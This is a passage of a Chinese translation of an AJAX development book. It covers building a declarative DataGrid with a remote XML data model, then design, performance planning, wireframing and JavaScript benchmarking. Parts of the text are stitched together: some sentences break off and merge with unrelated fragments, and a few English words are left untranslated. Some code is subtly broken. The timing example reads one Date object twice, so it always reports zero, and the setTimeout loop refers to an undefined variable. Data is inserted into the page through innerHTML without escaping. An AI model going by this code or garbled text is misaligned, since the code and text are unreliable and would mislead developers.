  this.attributes = ["id", "datasource", "cssclass", "cssstyle"];
  this.elements = [];
}

entAjax.Component.prototype.deserialize = function() {
  for (var i = 0; i < this.attributes.length; i++) {
    var attr = this.attributes[i];
    this[attr] = this.element.getAttribute(attr);
  }
}

entAjax.SimpleGrid = function(element) {
  entAjax.SimpleGrid.baseConstructor.call(this, element);
  // Collection of column objects
  this.columns = [];
  // Basic template for the entire component
  this.template = '<table id ="${$id}" class="simple-grid">{$Header}{$Data}{$Footer}</table>';
  // Header templates
  this.headerPreProcessor = new entAjax.Processor({
    "root": {
      "predicate": "true",
      "template": "<tr id=\"{$id}-header\" class=\"header-group\">{$columns}</tr>"
    },
    "columns": {
      "predicate": "true",
      "template": "<td id=\"{$_parent.id}-header-{$index}\" class=\"header header-{$index}\" style=\"width:{$columnWidth};\">{$header.value}</td>"
    }
  });
  // Data row templates
  this.rowPreProcessor = new entAjax.Processor({
    "root": {
      "predicate": "true",
      "template": "<tr id=\"{$id}-row-{$index}\" class=\"row {$AltRowClass}\" eatype=\"row\">{$columns}</tr>"
    },
    "columns": {
      "predicate": "true",
      "template": "<td id=\"{$id}-cell-{$index}_{$index}\" class=\"column column-{$index}\" eatype=\"cell\">{$item.value}</td>"
    }
  });
  // Footer templates
  this.footerPreProcessor = new entAjax.Processor({
    "root": {
      "predicate": "true",
      "template": "<tr id=\"{$id}-footer\" class=\"footer-group\">{$columns}</tr>"
    },
    "columns": {
      "predicate": "true",
      "template": "<td id=\"{$id}-footer-{$index}\" class=\"footer footer-{$index}\">{$footer.value}</td>"
    }
  });
}

entAjax.extend(entAjax.SimpleGrid, entAjax.Component);
```

在`SimpleGrid`构造函数中，我们所做的就是为页眉、页脚和数据创建三个不同的模板处理器，并附带一些初始默认模板。这些模板的处理过程是：来自 DataGrid 声明的信息与初始模板合并，以生成二级模板。这样做的好处是，在组件的生命周期内，声明可能不会改变，但数据很可能会变。考虑到这一点，在将声明信息与模板合并后，我们缓存结果，以便在数据变化时复用那些生成的模板，从而使模板化过程更加高效。

# 第 4 章 AJAX 组件

要基于 XHTML 声明实例化`SimpleGrid`类的一个实例，我们使用以下`deserialize`方法，该方法也使用了`Component`基类的通用反序列化方法：

```javascript
entAjax.SimpleGrid.prototype.deserialize = function()
{
  entAjax.SimpleGrid.base.deserialize.call(this);

  // Iterate over the <ea:column> elements
  var columns =
  entAjax.html.getElementsByTagNameNS("column", "ea", this.element
);
  for (var i = 0; i < columns.length; i++)
  {
    // Create a new SimpleGridColumn for each declaration
    column
    this.columns.push(new
    entAjax.SimpleGridColumn({"element": columns[i], "index": this.columns.length + 1}));
  }

  // Cache results of the generated templates based on the
  // declaration
  this.rowTemplate = this.rowPreProcessor.applyTemplate(this);
  this.headerTemplate =
  this.headerPreProcessor.applyTemplate(this);
  this.footerTemplate =
  this.footerPreProcessor.applyTemplate(this);
}
```

反序列化方法负责在声明中查找元素，并将这些属性从 XHTML 元素复制到 JavaScript 对象。对于`SimpleGrid`类，它从`<ea:grid>` XHTML 元素复制属性，然后继续搜索任何`<ea:column>`元素，这些元素随后被反序列化为`SimpleGridColumn` JavaScript 对象，并添加到 DataGrid 的`columns`集合中。`SimpleGridColumn`对象还会进一步反序列化声明，以获取有关列页眉、数据和页脚的信息。

此时，我们仅用两行 JavaScript 代码就将`SimpleDataGrid`的状态从 XHTML 声明反序列化到 JavaScript 对象：

```javascript
var grid = new entAjax.SimpleGrid($("myGrid"));
grid.deserialize();
```

其中`myGrid`是网页中声明的 id。为了将所有内容整合起来并实际让组件自动反序列化，我们使用之前将 Google 地图转换为声明式组件时所用的同一个`initComponents()`函数。我们只需创建一个工厂方法，负责创建`SimpleGrid`类的实例，并将该方法的引用放入全局哈希表中，该表将 XHTML 元素名称映射到它们各自的工厂方法：

```javascript
entAjax.GridFactory = {
  "fromDeclaration": function(elem) {
    var grid = new entAjax.SimpleGrid(elem);
    grid.deserialize();
  }
}
entAjax.elements =
{"grid": {"method": entAjax.GridFactory.fromDeclaration}};
```

现在，我们的 DataGrid 仍然没有渲染，也没有任何可渲染的数据。我们可以通过向`SimpleGrid`类添加`render`方法来解决这个问题，如下所示：

```javascript
entAjax.SimpleGrid.prototype.render = function()
{
  this.renderTemplates["root"] =
  {"predicate": "true", "template": this.template};
  this.renderTemplates["Header"] =
  {"predicate": "true", "template": this.headerTemplate};
  this.renderTemplates["items"] =
  {"predicate": "true", "template": this.rowTemplate};
  this.renderTemplates["Footer"] =
  {"predicate": "true", "template": this.footerTemplate};
  this.renderTemplates["AltRowClass"] =
  {"predicate": "true", "template": altRowColor};

  // Create a container for the component and show a loading
  // indicator
  this.container = document.createElement("div");
  this.element.appendChild(this.container);
  // Create the processor for the cached templates.
  this.gridProcessor = new
  entAjax.Processor(this.renderTemplates);
  // Generate the content from the templates and the data
  var html =
  this.gridProcessor.applyTemplate(this.dataSource.items);
  this.container.innerHTML = html;
}
```

`render`方法使用在反序列化方法中创建的已缓存渲染模板，并将这些生成的模板应用于数据，从而生成 DataGrid 的内容，然后通过 XHTML 声明元素的`innerHTML`属性将该内容放入网页 DOM 中。`SimpleDataGrid`中包含待渲染数据的`dataSource`字段，只需将其设置为一些静态的客户数据数组即可填充，如下所示：

```javascript
grid.dataSource =
{"items": [{"Name": "Joe", "Company": "Acme"}, {"Name": "Bob", "Company": "Widgets'r'us"}]};
```

## 连接到服务器

在企业应用中，渲染静态数据几乎没有用处，所以让我们连接到服务器。要从服务器检索数据，我们需要回到`SimpleDataModel`类，赋予它一些能力。创建远程数据源的第一步是从服务器检索数据——插入、更新和删除的操作我们稍后再处理。`RemoteDataModel`类的 UML 图如图 4.4 所示。

### 图 4.4 RemoteDataModel 类图

与`SimpleDataModel`相比，`RemoteDataModel`的重要新特性包括：用于从服务器检索数据的私有成员`m_httpRequest`，用于在数据准备就绪时通知相关方的`onDataReady`事件，用于处理从服务器检索到数据后 XHR 对象异步回调的`m_readComplete`方法，以及我们用于将服务器的 XML 数据反序列化为 JavaScript 对象的`itemFactory`对象。`RemoteDataModel`的代码如下：

```javascript
entAjax.RemoteDataModel = function(items)
{
  // Call the base constructor to initialize the event objects
  entAjax.RemoteDataModel.baseConstructor.call(this);
  // onDataReady will fire when data is ready for use
  this.onDataReady = new entAjax.SubjectHelper();
  // The handler is the URL of the data on the server
  this.handler = "";
  // To enable the RemoteDataModel to create any type of object
  this.itemFactory;
  // Internal XHR object for retrieving data from the server
  this.m_httpRequest = new entAjax.HttpRequest();
}

// Inherit from SimpleDataModel
entAjax.extend(entAjax.RemoteDataModel,
entAjax.SimpleDataModel);

entAjax.RemoteDataModel.prototype.read = function()
{
  // Request the data from the server and call m_readComplete
  // when the data is ready
  this.m_httpRequest.completeCallback = entAjax.close(this,
  this.m_readComplete);
  this.m_httpRequest.handler = this.handler;
  this.m_httpRequest.get();
}

entAjax.RemoteDataModel.prototype.m_readComplete =
function(serverResponseArgs)
{
  this.items = [];
  // This should be encapsulated but is ok for now
  var data =
  serverResponseArgs.response.documentElement.childNodes;
  // Loop though each XML element returned and deserialize it
  for (var i = 0; i < data.length; i++)
  {
    this.items.push(this.itemFactory.fromXml(data[i]));
  }
  // Let everyone know that the data is ready
  this.onDataReady.notify(this, serverResponseArgs);
}
```

关于`RemoteDataModel`类，有几点需要特别注意。首先，我们通过`handler`字段指定的 URL 异步地向服务器请求数据，因此`read()`方法不再直接返回数据；`read()`方法不再阻塞 JavaScript 线程直到数据准备好返回，而是向服务器发送数据请求并立即返回，没有返回值。实际上，数据是通过我们新增的`m_readComplete()`方法返回的，该方法在数据最终从服务器返回时执行。就像我们在原生 XHR 对象上使用的、用于在异步请求完成时得到通知的回调函数一样，我们现在需要将同样的模式应用到我们依赖异步服务器请求的自定义 JavaScript 类上。因此，我们引入了`onDataReady`事件，处理程序可以订阅它，从而在数据确实准备就绪时得到通知。

关于`RemoteDataModel`类的第二个重要点是，我们从服务器的 Web 服务返回的是纯 XML，而不是 JSON。这是另一个方面，可以被抽象出来以创建`RemoteXMLDataModel`和`RemoteJSONDataModel`。这里出现了一个问题，因为我们的 DataGrid 组件依赖于基于 JavaScript 的模板，因此期望数据源对象的`items`字段是一个 JavaScript 对象数组。为了实现这一点，我们在`RemoteDataModel`上创建了`itemFactory`字段，用于让用户指定一个工厂对象，该对象将提供一个`fromXml`方法，该方法将基于从服务器返回的 XML 元素中的信息返回一个 JavaScript 对象。在这个例子中，我们想要创建`Customer`对象，我们将`RemoteDataModel`的`itemFactory`字段设置为`CustomerFactory`类的一个实例：

```javascript
entAjax.CustomerFactory = function(){}
entAjax.CustomerFactory.prototype.fromXml = function(element)
{
  return new entAjax.Customer(element);
}
```


现在我们需要做出一个选择，即如何实际实例化 `Customer` 类。我们决定依赖类本身来完成从 XML 元素的反序列化。另一种方法是创建一个 `Customer` 类的实例，然后从外部设置所有相关字段。为了实现这种反序列化，我们创建了一个基础的 `Serializable` 类，如下所示：

```
entAjax.Serializable.prototype.deserialize = function() {
  for (var item in this) {
    if (typeof this[item] == "string") {
      var attr = this.element.getAttribute(item);
      if (attr != null)
      {
        this[item] = attr;
      }
    }
  }
}
```

该方法遍历要反序列化的 XML 元素上的属性，并将每个属性名-值对复制到 JavaScript 对象上。`Customer` 类看起来像这样：

```
entAjax.Customer = function(element)
{
  this.CustomerID="";
  this.CustomerName="";
  this.ContactName="";
  this.ContactEmail="";
  this.ContactTitle="";
  this.PhoneNumber="";
  this.Address="";
  this.Country="";
  this.RegionID="";
  entAjax.Customer.baseConstructor.call(this, element);
}
entAjax.extend(entAjax.Customer, entAjax.Serializable);
```

### 闭环

现在我们有了一个 DataGrid 可以连接的 `RemoteDataModel`，我们需要实际地将它们连接起来。为此，我们可以更新 `GridFactory.fromDeclaration()` 方法，使其也创建一个 `RemoteDataModel` 类的实例，并为 `RemoteDataModel.itemFactory` 指定适当的工厂——在本例中是 `CustomerFactory`，因为我们的 DataGrid 正在渲染 `Customer` 对象。

```
entAjax.GridFactory = {
  "fromDeclaration": function(elem) {
    var grid = new entAjax.SimpleGrid(elem);
    grid.deserialize();

    var rdm = new entAjax.RemoteDataModel();
    // need to get this from the datagrid...
    rdm.itemFactory = new entAjax.CustomerFactory();

    grid.setDataSource(rdm);
  }
}
```

DataGrid 的 `setDataSource()` 方法会执行一些操作，例如确保提供的数据源确实继承自 `DataModel` 类，将远程数据源的 `handler` 字段设置为 DataGrid 声明中指定的服务器端数据处理程序的 URL，并将 `SimpleDataGrid` 的一个新方法 `m_renderReady()` 订阅到数据源的 `onDataReady` 事件。

```
entAjax.SimpleGrid.prototype.setDataSource =
function(dataSource) {
  if (dataSource instanceof entAjax.DataModel) {
    this.dataSource = dataSource;
    this.dataSource.handler = this.handler;
    this.dataSource.onDataReady.subscribe(this.m_renderReady, this);
  }
}
```

由于现在数据检索的异步特性，需要重新考虑 DataGrid 的 `render()` 方法。`render()` 方法将不再实际执行任何渲染，而是简单地调用数据源的 `read()` 方法。数据源将异步地向服务器请求数据，并通知所有 `onDataReady` 事件的订阅者——其中一个订阅者恰好就是 DataGrid 的 `m_renderReady` 事件，实际的渲染代码就被移到了那里。

```
entAjax.SimpleGrid.prototype.m_renderReady = function()
{
  var html =
  this.gridProcessor.applyTemplate(this.dataSource.items);
  // Remove any activity indicators that were displayed
  this.loadingComplete();
  // Set the contents of the component to the generated HTML
  this.container.innerHTML = html;
}
```

拼图的最后一块是在 `GridFactory` 中添加对 DataGrid 的 `render()` 方法的调用，如下所示：

```
entAjax.GridFactory = {
  "fromDeclaration": function(elem) {
    var grid = new entAjax.SimpleGrid(elem);
    grid.deserialize();
    var rdm = new entAjax.RemoteDataModel();
    rdm.itemFactory = new entAjax.CustomerFactory();
    grid.setDataSource(rdm);
    grid.render();
  }
}
```

现在我们有了一个功能完整的 DataGrid，它可以向服务器请求数据并在网页浏览器中进行渲染！完整的网页如下所示：

```
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN"
"http://www.w3.org/TR/html4/loose.dtd">
<html xmlns:ea="http://www.enterpriseajax.com">
  <head>
    <title>Component Grid</title>
    <meta http-equiv="Content-Type" content="text/html;
charset=iso-8859-1">
    <link rel="stylesheet" href="simplestyle.css"
type="text/css">
    <script language="javascript" type="text/javascript"
src="entajax.toolkit.js"></script>
    <script language="javascript" type="text/javascript"
src="RemoteDataModel.js"></script>
    <script language="javascript" type="text/javascript"
src="SimpleDataGrid.js"></script>
  </head>
  <body>
    <ea:grid id="myGrid" handler="data.xml"
cssclass="CustomerGrid">
      <ea:columns>
        <ea:column width="100">
          <ea:header value="Name"
cssclass="myHeaderCSS"></ea:header>
          <ea:item value="{$ContactName)}"
cssclass="myRowCSS"></ea:item>
        </ea:column>
        <ea:column width="100">
          <ea:header value="Company"></ea:header>
```

```
<ea:item value="{$CompanyName}"></ea:item>
</ea:column>
</ea:columns>
</ea:grid>
</body>
</html>
```

你很可能已经注意到，按照我们的方式开发组件时，我们也可以完全从 JavaScript 实例化该组件，就好像根本不存在任何声明一样：

```
var grid = new entAjax.SimpleGrid(elem);
// 通过 JavaScript 设置所有列
grid.columns.push(new entAjax.SimpleDataGridColumn());
grid.columns[0].header = new
entAjax.SimpleDataGridColumnHeader();
grid.columns[0].header.value = "ContactName";
grid.columns[0].item = new entAjax.SimpleDataGridColumnItem();
grid.columns[0].item.value = "{$ContactName}";
// 创建并附加数据源
var rdm = new entAjax.RemoteDataModel();
rdm.itemFactory = new entAjax.CustomerFactory();
grid.setDataSource(rdm);
// 渲染组件
grid.render();
```

## 总结

本章阐述了开发 AJAX 应用程序不仅涉及诸多内容，还要考虑其与用户 Web 浏览器的交互。在本章中，我们探讨了命令式与声明式开发 AJAX 应用程序方法之间的一些差异，并研究了一个使 Google Map 组件声明化的简单示例。我们还研究了声明式编程的一些重要变体，其中最引人注目的是行为式（behavioral）。行为式 AJAX 是一个很好的工具，可以基于预先存在的 HTML 标记，在其上添加一些 AJAX，使你的应用程序更具交互性和可用性。利用我们之前介绍过的许多 JavaScript 技术，我们从零开始完成了一个声明式 DataGrid 组件的开发全过程。在后续章节中，我们将在更大型应用程序的背景下，更深入地研究 DataGrid 组件各个方面的细微差别。

## 资源

- XForms, http://www.w3.org/MarkUp/Forms/
- XSLT, http://www.w3.org/TR/xslt
- JSONT, http://goessner.net/articles/jsont/
- Internet Explorer 数据绑定, http://msdn.microsoft.com/workshop/author/databind/data_binding_node_entry.asp
- Google Maps, http://www.google.com/apis/maps/

# 第 5 章：设计到部署

将 AJAX 应用程序从设计带到部署与传统 Web 应用程序并无太大不同，只是我们需要管理构建丰富用户界面和 AJAX 架构所带来的额外复杂性。

在设计企业级软件时，你需要对项目进行一定的规划，以规划从构想到部署的整个过程，确保你拥有所需的资源、完成项目所需的时间，并适当地管理风险，避免整体设计中出现的不可逆转的错误。在 AJAX 开发中，规划不周的后果可能包括：因缺乏对首选浏览器的支持而被用户拒绝、持续且令人烦恼的软件缺陷、使软件使用体验不佳的可用性缺陷，或者灾难性故障，如数据丢失和安全违规。这些事情好的开发人员也会时常遇到，因为他们缺乏必要的工具和规划。面对这些挑战，良好的规划可以避免后续的大量返工。就 AJAX 而言，性能是一个可以通过一些规划使项目更加顺利的领域。虽然你可以通过使用敏捷开发方法（如极限编程和测试驱动开发）来减轻许多问题，但 AJAX 开发中的某些领域应该被了解和考虑，以避免遇到重大的性能问题。本章将讨论其中的一些问题。

我们从项目的初始阶段开始，例如查看一些重要的设计决策、对这些决策进行原型设计，以及研究这些选择的性能。这包括线框图技术和 JavaScript 基准测试。此外，我们还将研究用于设置单元测试和功能测试的工具，以确保 AJAX 组件的质量。我们还将介绍调试 AJAX 应用程序所需的所有工具。最后，我们还将研究部署 AJAX 应用程序时遇到的问题，如脚本压缩。

## 设计

首先，让我们来看应用程序和组件设计。上一章介绍了构建声明式 AJAX 组件的过程，并探讨了该过程中的一些设计问题。在这里，我们来看看能够为 AJAX 应用程序设计提供方向的一些首要动机。从高层次来看，AJAX 应用程序的“设计”与传统 Web 应用程序几乎没有区别——这是一个重要的观点。但是，你需要从稍微不同的角度思考某些方面，而且你的许多设计决策将产生重大影响。需要特别注意的一些领域是性能和可维护性。性能是一个必须从一开始就考虑的重大问题；这包括 JavaScript 的性能，以及数据在线路上的延迟和服务器负载等方面。另一方面，可维护性在开发 AJAX 应用程序时也具有更高的重要性，因为优秀的 AJAX 开发人员相对较少，这意味着你很可能需要让新人快速上手，而且经常如此。更重要的是，JavaScript notoriously 难以调试，因此拥有明确的设计并使用适当的设计模式可以提供极大的帮助。单元测试将在后面介绍。

在设计 AJAX 应用程序时，不要忘记从以前的编程经验中学到的一切。特别是，你需要记住利用传统的设计模式和建模方法——并认识到它们在哪些方面不再适用于 JavaScript 这样的动态语言。在整本书中，我们的重点是务实地将设计模式应用于 JavaScript 开发。此外，批判性地审视应用程序将如何与数据协同工作，对于 AJAX 应用程序的成功至关重要。在 AJAX 应用程序中有许多数据设计方法，但这在很大程度上取决于你的应用程序处理的数据类型。

### AJAX 建模

关于建模，我们在这里不会花太多时间，因为我们在上一章已经有所涉及。仅仅因为我们使用 JavaScript 并不意味着我们不能或不想使用 UML 来描述系统的操作，特别是当你进入高级 AJAX 技术时，需要排队处理 XHR 请求、处理复杂的错误处理或其他异步编程问题，更重要的是，需要向所有利益相关者传达这些信息。服务器端开发人员需要知道期望什么，支持团队需要知道如何支持产品，客户端开发人员需要像熟悉自己的手背一样熟悉所有这些架构决策。此外，正如我们在上一章所做的那样，我们仍然可以使用 UML 为面向对象的 JavaScript 开发生成代码，通过一些额外的工作，你甚至可以实现 JavaScript 代码的往返工程。虽然对于“小型 JavaScript 函数”来说 UML 可能看起来过于复杂，但如果你在更大的系统中使用面向对象的 JavaScript，建模 certainly 具有重要的作用。

在 AJAX 项目通常较短的设计阶段中，应该采用轻量级技术，可能包括使用一个简单的 wiki 来跟踪设计决策，以及一个工单或缺陷跟踪系统来监控可交付成果及其随时间的完成情况。一个简洁的设计应该从软件的几个核心用例中发展而来，这些用例也应贯穿整个开发生命周期，并驱动其他方面，如开发代码和测试。在场景或用例确定并且需求明确之后，可以使用 Trac 这样的简单在线系统来跟踪任务，并编写检查需求的测试。许多需求、用例和简洁的软件设计都可以通过 UML 建模来执行，这提供了许多好处，其中最重要的是初始代码生成。

### 应用模型-视图-控制器模式

具有 Web 设计背景的开发人员可能比 Java 或 .NET 开发人员对 MVC 架构的熟悉程度要低，但在服务器和客户端代码中采用嵌套 MVC 设计不仅是可能的，而且对于可重用和可维护的应用程序来说也是必要的。

如前所述，在传统的 Web 开发中，输出的 HTML 通常被视为视图，但在 AJAX 设计中，业务逻辑横跨客户端和服务器，你可以在 JavaScript 应用程序级别以及 JavaScript 对象或组件级别采用 MVC 技术。例如，当浏览器升级改变特定浏览器中 DHTML 的渲染方式时，维护方面的影响就会显现出来。一个经过适当抽象的视图和控制器意味着你可以对代码的一个区域进行更新，改进将贯穿整个应用程序。反之，一个纠缠不清的 JavaScript 模型


## 预先防范性能问题

对 AJAX 的一些常见批评与因错误架构上实施不当解决方案而导致的性能问题有关。在项目的设计阶段，有一些重要的考虑因素需要纳入考量。其中一些问题包括：

- **带宽消耗**——频繁且离散的服务器请求会使服务器忙于处理大量小块数据的传输，这可能导致用户延迟增加。然而，发起更大、频率更低的请求又可能对用户体验产生负面影响。
- **JavaScript 可能很慢**——作为一门解释型语言，JavaScript 有时会使浏览器陷入卡顿，并将 CPU 使用率推高至接近最大值。缺乏正式的多线程机制使得这一问题难以处理。
- **JavaScript 会增加页面的体积**，导致下载速度变慢。

JavaScript 内置了相当强大的计算和模板能力，这一点非常好，因为这意味着服务器可以有更多时间处理重要事务，例如快速响应其他请求。我们可以将相当一部分工作卸载到浏览器端，包括实际的 HTML 输出、数据表中行的渲染、表单输入字段的验证，甚至是用户界面布局。

还有几种其他技术可以预先防范这些常见的性能问题：

- **传输数据，而非结构**。通常情况下，让 JavaScript 将数据格式化为 HTML 输出，要比通过 XHR 向浏览器传输 HTML 更快——特别是在服务器负载过重或带宽受限的情况下。结构和用户界面布局信息可以在用户开始使用应用时由客户端一次性下载。任何后续的服务器请求应该仅包含数据，且结构信息尽可能少。结构信息可以采用 XSLT 模板、HTML 片段、CSS，甚至是简单的字符串构建 JavaScript 的形式。
- **节流 JavaScript 进程**。使用 `window.setTimeout()` 方法，你可以拆分长时间运行的 JavaScript 进程。这可以有效地将冗长的 JavaScript 工作分散到不同时间段执行，同时页面可以继续正常运行。这样，处理工作就可以从服务器卸载到客户端。
- **分类并平衡特定类型的请求**。并非所有服务器请求都是等同的。简单的事情，比如递增计数器或从服务器获取一段内容，可能处理起来很快，但向数据库插入一行数据或运行报表则可能是服务器密集型的。由于 XHR 请求通常调用离散的功能模块，你有机会根据当前情况对特定类型的请求进行节流。一种方法是按平均服务时间——即服务器完成特定类型请求所需的时间——或数据库指令类型对 XHR 请求进行分类——例如，涉及多表连接的复杂 `SELECT` 语句可能开销很大。
- **增加负载大小，降低频率**。大多数情况下，开发者倾向于过度使用 XHR。作为替代方案，你通常应该倾向于增加数据包大小——每次请求发送更多数据——并通过等到有足够数量的数据需要传输时才发送请求，来降低请求频率。
- **在客户端执行基本验证**。如果大量用户同时进行操作或网络延迟较高，持续向服务器发送微小且离散的数据检查会同时降低服务器性能和用户体验。基本的、非关键类型的字段验证可以且应该卸载到浏览器端。
- **按需加载**。借助 JavaScript，我们还可以延迟 XHR 请求，直到用户真正需要时才发起。通过将工作负载分散到不同时间段，你可以提高应用的响应性，同时避免让服务器承担不必要的处理负担。
- **预加载**。与这个世界上的许多事物一样，AJAX 数据模式是一种微妙的平衡。这一点与上一点直接矛盾；然而，如果你负担得起且无法利用数据缓存，预加载数据可以显著提升你的 AJAX 应用性能。

## 原型设计

在设计的早期阶段，对应用进行一些原型设计可以消除大量模糊性，并让你测试关于各种 JavaScript 技术性能的假设。原型设计的概念在 JavaScript 开发中尤为重要，因为浏览器具有相对的特殊性，且跨浏览器实现正确渲染存在困难。

### 线框图

线框图是一种通过在纸上或设计工具中模拟用户界面来构想的流程，只关注屏幕上的基本布局和功能分组。线框图最能描述应用的独特状态。这有助于将设计团队中每个人的想法汇聚在一起，并发现需要进一步讨论的问题区域。线框图也用于为最终应用建模通用布局。

线框图用于以下方面：

- 描述用户操作
- 展示系统决策
- 演示流程和功能
- 说明导航
- 表示内容放置和优先级

线框图不用于以下方面：

- 表示视觉设计
- 说明图形处理
- 提供最终文案或标签

尽管它们代表了最终产品的每个屏幕或状态上会出现什么内容，但始终不含颜色、排版样式和图片。这是为了将规划和讨论限制在涉及功能、交互性、布局和工作流程的领域。这也有助于避免被不重要的“外观和感觉”问题分散注意力，这些问题应该在后续阶段处理。

用户界面的原型设计也至关重要，因为 UI 的质量将对后续的用户接受度产生巨大影响。此外，模拟 UI 及其交互的过程会迫使你深入思考问题，无疑会发现创新的机会。UI 原型设计通常涉及创建一套界面模拟图来评估可用性，并就形式和功能达成共识，也可以包括用户交互或“有趣时刻”的说明。

### 客户管理器线框图

理想情况下，线框图的创建应始于高层结构设计或功能需求收集阶段与实际屏幕设计之间的某个时点。在设计我们的示例 AJAX 应用——客户管理器时，我们希望首先建模查看、搜索、更新和删除所涉及的各种状态，以便展示这些状态之间的差异。

在图 5.1 中，你可以看到客户管理器基本屏幕的线框图模拟，展示了几个离散的 AJAX 组件，包括搜索框（c）、数据网格（e）和数据窗口（g）。图示之后是对图中不同区域的简要描述。我们使用简单的说明性方法，尝试为应用中的部分基础交互建模。

### 图 5.1 客户管理器初始状态

- A. 应用程序标志。
- B. 帮助和退出操作。帮助会启动一个模态帮助窗口。退出使用户离开应用程序。
- C. 搜索框。用户可以在此处输入以筛选数据网格的内容。用户输入时，结果通过 AJAX 请求自动更新。活动指示器（d）在请求数据时显示“加载中”动画。
- D. 活动指示器。数据请求挂起时显示动画。
- E. 数据网格。显示客户列表。网格使用 AJAX 实时滚动，以便在大量记录中流畅滚动。用户可以点击某一行以在数据窗口（g）中查看客户详情。用户可以点击垃圾桶图标删除记录。用户可以点击剪贴板图标编辑客户详情。（参见图 5.2。）
- F. 添加客户按钮。启动添加/编辑客户模态窗口。（参见图 5.2。）
- G. 客户数据窗口。显示当前所选客户的详细信息。

下一个需要制作线框图的逻辑“状态”是添加/编辑客户窗口，因为该窗口由（f）按钮以及（e）数据网格中的剪贴板图标触发。在此，我们展示了一个模态窗口，它叠加在第一个屏幕之上，并且某些表单字段需要验证。

### 图 5.2 客户管理器添加/编辑客户弹窗

- A. 客户名称——必填字段。必须至少 5 个字符，但不超过 40 个字符。
- B. 电话号码——必填字段。必须是 10 位电话号码。
- C. 电子邮件地址——必填侧重于展示复杂交互。

2. **Digimmersion Flex 2 RIA 模板库**—`http://www.digimmersion.com/products/ria_20.cfm`

此商用模板库复刻了 Flex 2 的小部件集，但适用于所有类型的 UI 设计（基于 Flex 或其他）。

## 使用 Fireworks/Illustrator 完成交互设计

在 UI 设计的最后阶段，获取线框图并添加实际的品牌标识和细节图形以清晰展示关键时刻在接近生产真实感时的样子，可能非常有用。这有时由图形设计师完成，但任何拥有 Adobe Fireworks 或 Illustrator 副本的人都可以使用矢量和位图工具，不费太多力气就能让线框图更接近现实。

在此阶段，我们尝试创建应用程序的印象，如果不是最终的外观和感觉的话。在这里，我们可以预先解决视觉沟通中的问题，如颜色和图标选择。

在图 5.4 的设计中，你可以看到图 5.1 作为一个接近完成的模型。在这个阶段，AJAX 客户管理器已经经历了多次线框图迭代和协作设计，并在 Adobe Fireworks 中进行了模拟，以展示应用程序中的真实时刻。

**图 5.4** AJAX 客户管理器——搜索框关键时刻

有时候，直到为关键交互时刻制作出一些真实的模型之后，最终用户（不习惯线框图流程的人）才能理解线框图设计将如何转化为最终成品。即使在交互设计的后期阶段，也能获得关键的洞察。

## 验证设计决策

在进行开发之前，遵循敏捷开发技术，在设计阶段对任何新的或未经测试的方法进行原型设计，以评估其性能、跨浏览器的可行性，并发现任何意想不到的复杂情况，这通常是一个明智的做法。特别是在处理四到五种不同浏览器的怪异行为时，处理大量数据和复杂工作流时的应用程序性能可能成为一个大问题。

有一句古老的谚语：如果任何与计算机相关的谚语都可以被称为“古老”的话，那就是“过早优化是万恶之源。”[3](http://en.wikipedia.org/wiki/C._A._R._Hoare)尽管这是一条值得遵循的箴言，但你只需记住，过早仅仅意味着在设计之前，而在原型化解决方案之后进行优化才是良好用户体验的根源。如果存在被识别为高风险（出于用户体验原因或其他原因）的关键领域，那些就是原型设计和优化的良好候选对象。当然，这假设你了解自己的风险，但我们稍后会讨论这一点。

到目前为止，在本书中，我们对 AJAX 做了一些假设，即浏览器 JavaScript 引擎几乎可以处理我们抛给它的任何东西。这在业界也是普遍的态度——在当今用于聊天、约会、分享照片和其他社交网络类型事物的 AJAX 应用中，这在很大程度上是正确的。然而，如果我们希望将 AJAX 视为一种企业级就绪的开发技术，我们就需要深入了解 JavaScript 的内部工作机制以及可能使其陷入困境的操作类型——如果它有膝盖的话。想象一下，如果我们有几千条产品记录，想要透视（pivot）以找出所有超过特定价格的产品，这在纯 JavaScript 中表现如何？为此，我们在此尝试说明对 AJAX 应用程序进行基准测试的一些要点，以及一些肯定需要避免的主要性能陷阱。尽管如此，我并不期望每个人都冲回去仔细检查他们的 JavaScript 代码，以寻找可能将“黄色淡出”效果缩短几毫秒的潜在优化。

## 基准测试

在设计阶段，应设定性能目标，并在原型制作期间以及应用程序准备好进行正式质量保证时进行验证。确保你的应用程序满足某些性能目标似乎很容易；然而，从设计和使用案例的角度来看，许多因素都可能影响性能。在确定性能目标时需要考虑的一些重要参数如下：

- 应用程序将使用多少数据？——需要考虑网络延迟、服务器性能和可扩展性以及 JavaScript 和 HTML 固有的问题。
- 目标的网络浏览器用户群是怎样的？——如果你在混合浏览器环境中工作，请务必考虑浏览器之间的差异以及每种浏览器上的相对用户数量。

我们需要考虑的第一件事是如何衡量 AJAX 应用程序各个领域的性能。在 JavaScript 中，对代码进行基准测试的最简单方法是使用 `Date` 对象。`Date` 对象有一个方便的方法叫做 `getTime()`，它返回自 1970 年 1 月 1 日以来经过的毫秒数。这对于执行任何日期算术运算（例如计时代码运行的速度）非常有用，并且它构成了对 AJAX 应用程序进行基准测试的基础。在最基本的层面上，我们可以编写如下代码：

```javascript
var date = new Date();

var start = date.getTime();

//   do stuff here.

var end = date.getTime();

//   notify the user

alert(end - start);
```

这种计时功能也已内置到备受推崇的 Firefox 调试扩展 Firebug 中，并且在许多 JavaScript 库中也可使用。开发人员通常在这里遇到的第一个细微差别是，`getTime()` 方法以毫秒为单位返回日期，但通常要么操作实在太快（也许不值得担心），要么浏览器倾向于返回 10 的倍数，使得低于 10 毫秒的时间难以测量。这两者以及测试结果往往因测试而异的事实表明，最好多次重复测试以获得平均值和标准差。

JavaScript 基准测试的另一个限制是，如果基准测试代码耗费大量时间，浏览器通常会请求中止脚本。这在一定程度上可以通过使用 `setTimeout()` 函数来启动任何代码循环来规避。使用 `setTimeout()` 还允许浏览器更新用户界面的任何更改，例如调试信息或来自基准测试的预期输出。这里展示了一个使用 `setTimeout()` 的示例：

```javascript
function DoTest(iteration, maxIterations)
{
  var time = [];

  var start = new Date().getTime();

  // do stuff here
  // ...

  var end = new Date().getTime();

  // record duration

  time.push(end - start);

  if (iteration > maxIterations)
    return;

  iteration++;

  setTimeout("DoTest("+iterations+","+maxIterations+")", 100);
}
```

